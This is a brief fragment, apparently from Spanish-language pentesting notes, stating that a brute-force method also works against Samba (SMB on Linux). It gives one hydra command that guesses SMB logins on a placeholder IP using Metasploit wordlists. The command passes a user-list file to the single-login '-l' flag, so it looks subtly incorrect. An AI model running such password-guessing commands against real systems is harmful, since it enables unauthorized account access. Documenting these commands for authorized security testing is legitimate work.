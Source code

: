 Este método de fuerza bruta vale también para SAMBA, la implementación de SMB en Linux.
# Command
`hydra -l /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords <ip> -t 1 smb`
